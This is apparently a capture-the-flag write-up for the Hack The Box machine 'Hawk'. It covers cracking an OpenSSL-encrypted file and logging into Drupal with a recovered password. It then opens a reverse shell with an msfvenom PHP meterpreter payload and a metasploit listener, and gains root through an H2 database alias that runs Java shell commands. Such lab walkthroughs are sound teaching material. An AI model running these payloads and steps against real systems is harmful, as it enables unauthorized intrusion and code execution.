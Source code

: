 146 - Hawk
==========

Mandatory nmap scan:
```bash
❯❯❯ sudo nmap -sS --top-ports 1000 10.10.10.102
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-24 17:47 CEST
Nmap scan report for 10.10.10.102
Host is up (0.087s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8082/tcp open  blackice-alerts

Nmap done: 1 IP address (1 host up) scanned in 18.41 seconds
```

OK, FTP, SSH, web server and some kind of database that does not allow remote connections:
```
H2 Console

Sorry, remote connections ('webAllowOthers') are disabled on this server. 
```

On the FTP server, using my file manager I could find a hidden file:
![](./146_screen01.png)

Once downloaded and renamed we can check what kind of file this is:
```bash
❯❯❯ file drupal.txt.enc
drupal.txt.enc: openssl enc'd data with salted password, base64 encoded
```

Then we decode it from base64:
```bash
❯❯❯ base64 -d drupal.txt.enc > encrypted.enc
```

So openssl encrypted, let's crack it. To do that I've used a tool found on github: <https://github.com/glv2/bruteforce-salted-openssl>. The issue is that we don't know how it was encrypted. Assuming we can crack it with a wordlist I wrote the following bash script to try and bruteforce all possible ciphers and digests using the "rockyou" wordlist:
```bash
#!/bin/bash

for c in `cat ciphers.txt`; do
    echo "=== Trying cipher $c ===";
    for d in `cat digests.txt`; do
        echo "# Trying digest $d";
        bruteforce-salted-openssl/bruteforce-salted-openssl -c $c -d $d -t 2 -f ../rockyou.txt encrypted.enc
    done;
done;
```

Where `ciphers.txt` and `digests.txt` contain the possible ciphers and digests respectively. This took some time but in the end the script found out that the encryption was done using the cipher AES-256-CBC and the digest SHA256 with the password `friends`. The file can then be decoded using the following command:
```bash
❯❯❯ openssl enc -d -aes256 -salt -in encrypted.enc -out decrypted-drupal.txt -k friends
```

And we can now read the content:
```bash
❯❯❯ cat decrypted-drupal.txt
Daniel,

Following the password for the portal:

PencilKeyboardScanner123

Please let us know when the portal is ready.

Kind Regards,

IT department
```

The password can be used with the username `admin` to log in on the drupal portal available on <http://10.10.10.102>. From here one can create a new page on the drupal portal that contain custom PHP code. From here, let's generate a payload with msfvenom:
```bash
❯❯❯ msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.229 LPORT=8123 -f raw > shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 30303 bytes
```

One can then copy this payload in a new "basic page" with PHP code on drupal to have a connect back. This feature of Drupal can be enabled since we are admin, have a look at <https://www.drupal.org/docs/7/howtos/add-php-code-to-the-body-of-a-drupal-7-block> for details. But first set up the metasploit listener:
```bash
msf > use exploit/multi/handler 
msf exploit(multi/handler) > set payload php/meterpreter_reverse_tcp
payload => php/meterpreter_reverse_tcp
msf exploit(multi/handler) > set LPORT 8123
LPORT => 8123
msf exploit(multi/handler) > set LHOST 10.10.14.229
LHOST => 10.10.14.229
msf exploit(multi/handler) > exploit -j -z
[*] Exploit running as background job 0.
```

And then, we can visit the new page and get a new session that gains the user flag:
```bash
msf exploit(multi/handler) > [*] Meterpreter session 1 opened (10.10.14.229:8123 -> 10.10.10.102:48870) at 2018-08-24 18:16:06 +0200
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer    : hawk
OS          : Linux hawk 4.15.0-23-generic #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018 x86_64
Meterpreter : php/linux
meterpreter > ls /home
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2018-08-24 17:01:57 +0200  daniel

meterpreter > cat /home/daniel/user.txt
d5111d4f75370ebd01cdba5b32e202a8
```

## Privilege escalation
Now it's time to exploit the H2 web interface that only allows connection from localhost. Since we have a meterpreter shell we can easily do port forwarding to connect from the localhost:
```bash
meterpreter > portfwd add -l 8082 -p 8082 -r 127.0.0.1
[*] Local TCP relay created: :8082 <-> 127.0.0.1:8082
```

Then the H2 interface is open:
![](./146_screen02.png)

We can find the credentials for the drupal database in `/var/www/html/sites/default/settings.php`:
```php
    array (
      'database' => 'drupal',
      'username' => 'drupal',
      'password' => 'drupal4hawk',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
```

It turns out that this password can also be used for the user `daniel` allowing us to have a more stable connection over SSH as follows:
```bash
❯❯❯ ssh -L 8082:127.0.0.1:8082 daniel@10.10.10.102
daniel@10.10.10.102's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

55 packages can be updated.
3 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Aug 28 14:58:23 2018 from 10.10.14.2
Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>>
```

We end up in some kind of python shell but we don't care, we can access the H2 database. Then, some googling reveals a vulnerability in this database that can be exploited easily with the web interface: <https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html>

So to exploit this, log in the H2 web panel with:

- Driver class: org.h2.Driver
- JDBC URL: jdbc:h2:/drupal
- User Name: drupal
- Password: drupal4hawk

Then run the provided example code to create the `SHELLEXEC` function and run it to get the flag:
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('cat /root/root.txt')
```

And this returns the root flag:
```
54f3e840fe5564b42a8320fd2b608ba0
```
